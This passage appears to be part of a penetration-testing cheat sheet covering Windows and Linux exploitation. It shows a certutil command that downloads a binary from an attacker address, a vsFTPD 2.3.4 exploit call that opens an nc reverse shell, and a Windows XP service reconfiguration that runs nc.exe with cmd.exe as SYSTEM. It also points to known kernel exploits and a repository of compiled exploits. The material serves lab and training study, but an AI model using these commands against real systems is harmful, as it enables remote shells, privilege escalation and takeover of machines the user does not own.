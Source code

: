 Download file with certutil

```text
certutil -urlcache -split -f "http://10.11.0.49/wget.exe" wget.exe
```

### Windows exploit suggester

Copy systeminfo to local host

```text
./windows-exploit-suggester.py --database 2019-11-29-mssb.xls --systeminfo /tmp/systeminfo
```

### Well know exploits

* Ubuntu 11 - CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\)
* Windows compiled exploits repo [https://github.com/SecWiki/windows-kernel-exploits.git](https://github.com/SecWiki/windows-kernel-exploits.git)

## Common vulnerabilities

### vsFTPD 2.3.4

Exploit and reverse shell

```text
python3 vsftpd_234_exploit.py 192.168.56.101 21 "sh -c 'nc -nv 192.168.56.1 44444 -e /bin/bash > /dev/null 2>&1 &'"
```

### Windows XP SP1 priv escalation

```text
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe 10.11.0.49 10000 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
```


